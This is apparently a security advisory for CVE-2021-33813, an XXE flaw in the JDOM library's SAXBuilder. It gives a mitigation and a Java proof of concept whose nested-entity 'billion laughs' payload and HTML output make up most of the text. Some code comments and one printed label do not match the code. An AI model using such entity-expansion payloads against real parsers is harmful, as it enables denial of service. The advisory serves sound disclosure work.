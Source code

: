 ```yaml
---
layout: vuln
credit: estib
timeline:
    - type: 'report'
      date: '2021-02-16'
    - type: 'cve-assign'
      date: '2021-06-03'
    - type: 'deadline'
      date: '2021-05-16'
    - type: 'cve-request'
      date: '2021-06-02'
    - type: 'release'
      date: '2021-06-08'
product:
     - ' - JDOM library'

vulnerable:
- ' - JDOM-2.0.6 and before'

severity: 'moderate'
alephid: ALEPH-2021003
cve: CVE-2021-33813
date: '2021-06-03'
references:
    - src: 'JDOM XXE brunch fix PR'
      url: 'https://github.com/hunterhacker/jdom/pull/188'

title: 'XXE in JDOM library - Java'  

---
```

While working with the JDOM library, We have found a bug in SAXBuilder class that might lead to an XXE vulnerability.
According to OWASP, to avoid XXE vulnerability, we need to configure the parser not to allow external entities by 
using setFeature() method with the following values: 
``` java
parser.setFeature("http://xml.org/sax/features/external-general-entities", false).
```
We have found that it does not matter which value is set in this feature. Whether it is true or false,
external-general-entities will use the value from the Expand Entity.

Our suggested code fix is that setting user-specified features should be done after the set entity expansion. Since that user-specified configuration should have higher priority to avoid XXE.

Our mitigation, until a version fix is out, is to add configuration for ExpandEntity that should protect the parser from XXE:
``` java
builder.setExpandEntities(false);
```
Exploit example for the XXE bomb attack(billion laughs attack):
``` java
void test_SAXBuilder(HttpServletRequest request, HttpServletResponse response) throws IOException {
 
    String xmlParam = "<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY bar \"World \">
	<!ENTITY t1 \"&bar;&bar;\"><!ENTITY t2 \"&t1;&t1;&t1;&t1;\">
	<!ENTITY t3 \"&t2;&t2;&t2;&t2;&t2;\">]><foo>Hello &t3;</foo>";
    
    try {
        // disallow-doctype-decl is set to true and after parsing will hold value true
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", true);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        //builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
            s += content.getValue();
        }
        response.getWriter().println("external-general-entities: true, content: " + s);
    } catch (JDOMException e) {
    }
 
    try {
        // disallow-doctype-decl is set to false and after parsing will hold value true
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", false);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        //builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
            s += content.getValue();
        }
        response.getWriter().println("external-general-entities: false, content: " + s);
    } catch (JDOMException e) {
    }
 
    try {
        // disallow-doctype-decl is set to true and after parsing will hold value false
        // due to expandEntity value
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", true);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
            s += content.getValue();
        }
        response.getWriter().println("external-general-entities: true, ExpandEntities: false, content: " + s);
    } catch (JDOMException e) {
    }
  try {
        // disallow-doctype-decl is set to true and after parsing will hold value false
        // due to expandEntity value
        SAXBuilder builder = new SAXBuilder();
        builder.setFeature("http://xml.org/sax/features/external-general-entities", false);
        builder.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        builder.setExpandEntities(false);
        Document doc = builder.build(new InputSource(new StringReader(xmlParam)));
        String s="";
        for ( Content content : doc.getContent()) {
             s += content.getValue();
        }
        response.getWriter().println("external-general-entities: true, ExpandEntities: false,  content: " + s);
    } catch (JDOMException e) {
    }
}
```
The output html is:
``` html
<html>
  <body>
    external-general-entities: true, content: Hello World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World 
    external-general-entities: false, content: Hello World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World World 
    external-general-entities: true, ExpandEntities: false, content: Hello
    external-general-entities: false, ExpandEntities: false, content: Hello
  </body>
</html>
```
